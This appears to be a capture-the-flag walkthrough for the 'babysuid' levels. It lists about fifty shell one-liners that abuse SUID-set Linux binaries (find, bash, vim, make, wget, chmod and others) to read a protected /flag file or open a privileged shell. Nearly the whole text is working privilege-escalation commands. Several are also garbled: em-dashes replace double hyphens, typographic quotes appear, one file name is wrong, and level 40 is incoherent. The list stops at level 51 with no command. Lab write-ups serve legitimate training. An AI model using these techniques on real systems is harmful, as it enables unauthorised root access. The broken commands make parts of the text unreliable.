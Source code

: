 
Level 1 — If SUID bit on /usr/bin/cat


cat /flag

Level 2: If SUID bit on /usr/bin/more


more /flag

Level 3: If SUID bit on /usr/bin/less


less /flag

Level 4: If SUID bit on /usr/bin/head


head /flag

Level 5: If SUID bit on /usr/bin/tail


tail /flag

Level 6: If SUID bit on /usr/bin/sort


sort /flag

Level 7: If SUID bit on /usr/bin/vim


vim /flag

Level 8: If SUID bit on /usr/bin/emacs


emacs /flag
p

Level 9: If SUID bit on /usr/bin/nano


nano /flag

Level 10: If SUID bit on /usr/bin/rev


rev /flag | rev

Level 11: If SUID bit on /usr/bin/od


od /flag

Level 12: If SUID bit on /usr/bin/hd


hd /flag

Level 13: If SUID bit on /usr/bin/xxd


xxd /flag

Level 14: If SUID bit on /usr/bin/base32


base32 /flag | base32 -d

Level 15: If SUID bit on /usr/bin/base64


base64 /flag | base64 -d

Level 16: If SUID bit on /usr/bin/split


split /flag
ls
cat FILENAME_THAT_IS_GENERATED

Level 17: If SUID bit on /usr/bin/gzip


gzip -c /flag | gzip -d

Level 18: If SUID bit on /usr/bin/bzip2


bzip2 -c /flag | bzip2 -d

Level 19: If SUID bit on /usr/bin/zip


zip flag.zip /flag && cat flag.zip

Level 20: If SUID bit on /usr/bin/tar


tar -cf flag.tar /flag && cat flag.tar

Level 21: If SUID bit on /usr/bin/ar


F=$(mktemp -u) && ar r “$F” /flag && cat “$F”

Level 22: If SUID bit on /usr/bin/cpio


find /flag | cpio -o > flag.cpioio && cat flag.cpio

Level 23: If SUID bit on /usr/bin/genisoimage


genisoimage -sort /flag

Level 24: If SUID bit on /usr/bin/env


env cat /flag

Level 25: If SUID bit on /usr/bin/find


find . -exec /bin/sh -p \; 
cat /flag

Level 26: If SUID bit on /usr/bin/make


make -s — eval=$’x:\n\t-’”cat /flag”

Level 27: If SUID bit on /usr/bin/nice


nice cat /flag

Level 28: If SUID bit on /usr/bin/timeout


timeout 1 cat /flag

Level 29: If SUID bit on /usr/bin/stdbuf


stdbuf -i0 cat /flag

Level 30: If SUID bit on /usr/bin/setarch


setarch $(arch) cat /flag

Level 31: If SUID bit on /usr/bin/watch


watch -x cat /flag

Level 32: If SUID bit on /usr/bin/socat


socat -u /flag -

Level 33: If SUID bit on /usr/bin/whiptail


whiptail — textbox /flag 10 30

Level 34: If SUID bit on /usr/bin/awk


awk “//” /flag

Level 35: If SUID bit on /usr/bin/sed


sed ‘’ /flag

Level 36: If SUID bit on /usr/bin/ed


ed /flag CN

#Then type p to print flag and q to quit

Level 37: If SUID bit on /usr/bin/chown


chown hacker /flag && cat /flag

Level 38: If SUID bit on /usr/bin/chmod


chmod 666 /flag && cat /flag 

Level 39: If SUID bit on /usr/bin/cp


cp — no-preserve=all /flag . && cat flag

Level 40: If SUID bit on /usr/bin/mv



mv /usr/bin/cat /usr/bin/mv || ./challenge/babysuid_level40 || mv /flag | grep pwn.college{

Level 41: If SUID bit on /usr/bin/perl


perl -pe ‘END { close ARGV }’ /flag

Level 42: If SUID bit on /usr/bin/python

You can also try to write a program that reads the content of the /flag file.

python /flag

Level 43: If SUID bit on /usr/bin/ruby


echo “puts File.read(‘/flag’)” >> a.rb && ruby a.rb CN

Level 44: If SUID bit on /usr/bin/bash


bash -p CN then cat /flag

Level 45: If SUID bit on /usr/bin/date


date -f /flag 

Level 46: If SUID bit on /usr/bin/dmesg


dmesg -F /flag 

Level 47: If SUID bit on /usr/bin/wc


wc — files0-from=/flag

Level 48: If SUID bit on /usr/bin/gcc


gcc -x c -E /flag 

Level 49: If SUID bit on /usr/bin/as


as /flag 

Level 50: If SUID bit on /usr/bin/wget

This command creates a temporary executable script file using mktemp, sets execute permissions, and writes a simple shell script into it. The script is designed to execute /bin/sh with a specific set of options. Finally, it uses wget to download a file, passing the created script as the askpass program, allowing for potential privilege escalation or unauthorized access.

Then we can read the /flag file using cat /flag

F=$(mktemp) && chmod +x $F && echo -e ‘#!/bin/sh -p\n/bin/sh -p 1>&0’ >$F && wget — use-askpass=$F 0
cat /flag

Level 51: If SUID bit on /usr/bin/ssh-agent
